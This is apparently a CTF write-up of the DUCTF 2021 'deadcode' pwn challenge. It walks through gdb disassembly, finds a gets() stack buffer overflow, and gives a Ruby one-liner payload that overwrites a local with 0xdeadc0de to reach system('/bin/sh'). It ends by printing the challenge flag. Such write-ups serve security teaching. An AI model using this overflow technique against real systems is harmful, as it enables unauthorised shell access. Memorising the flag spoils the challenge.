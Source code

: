 ## Intro
**deadcode** was a pwn challenge at DUCTF 2021.  

You were given a binary to exploit.

## Investigation
`checksec` showed that besides NX no other stack mitigations are present. Following the `ltrace` I learned the relatively simple flow of the program and found a
potential buffer overflow vulnerability because the insecure `gets` functions is used to capture user input. I loaded the program into `gdb` and disassembled
the `main` function, which is the only one as `info functions` showed.

```
...
0x00000000004011c7 <+50>:   lea    rax,[rbp-0x20]
0x00000000004011cb <+54>:   mov    rdi,rax
0x00000000004011ce <+57>:   mov    eax,0x0
0x00000000004011d3 <+62>:   call   0x401060 <gets@plt>
0x00000000004011d8 <+67>:   mov    eax,0xdeadc0de
0x00000000004011dd <+72>:   cmp    QWORD PTR [rbp-0x8],rax
0x00000000004011e1 <+76>:   jne    0x401200 <main+107>
...
0x00000000004011ef <+90>:   lea    rdi,[rip+0xed5]        # 0x4020cb  "/bin/sh"
0x00000000004011f6 <+97>:   mov    eax,0x0
0x00000000004011fb <+102>:  call   0x401050 <system@plt>
...
```
We can see here that whatever resides at `rbp-0x8` is compared to `0xdeadc0de` and if equals, `system("/bin/sh")` is executed. So the task is to overflow
the buffer at `rbp-0x20` and write `0xdeadc0de` to `rbp-0x8` to spawn us a shell. Let's set a breakpoint right before the compare and run the program
with `AAAAAAAA` as input.  

```
(gdb) r
...
Breakpoint 1, 0x00000000004011d8 in main ()
(gdb) x/8x $rbp-0x20
0x7fffffffdec0:	0x41414141	0x41414141	0x00401000	0x00000000
0x7fffffffded0:	0xffffdfd0	0x00007fff	0x00000000	0x00000000
(gdb) p $rbp-0x8
$3 = (void *) 0x7fffffffded8
```

So we have to overwrite the contents of address `0x7fffffffded8` (thats's where `rbp-0x8` points to). The `AAAAAAAA`'s we typed in were sent straight to the buffer at
`0x7fffffffdec0` (that's where `rbp-0x20` points to) as we can see by the eight `0x41`'s (ASCII value for 'A'). From here we learn we have to fill the buffer
with 24 bytes and then get to write `0xdeadc0de` to our target address.  

## Solution
Let's use a quick ruby exploit for proof of concept.

```
(gdb) r <<< $(ruby -e 'print "A"*24 + "\xde\xc0\xad\xde"')
...
Breakpoint 1, 0x00000000004011d8 in main ()
(gdb) x/8x $rbp-0x20
0x7fffffffdec0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffded0:	0x41414141	0x41414141	0xdeadc0de	0x00000000
(gdb) x/x $rbp-0x8
0x7fffffffded8:	0xdeadc0de
(gdb) c
Continuing.


Maybe this code isn't so dead...
```

... and we've successfully overflowed the buffer satisfying the compare to get our shell. From here we can just execute `cat flag.txt`
to get the flag.

See [exploit](./exploit.py) for a python implementation of the exploit.  

> DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}

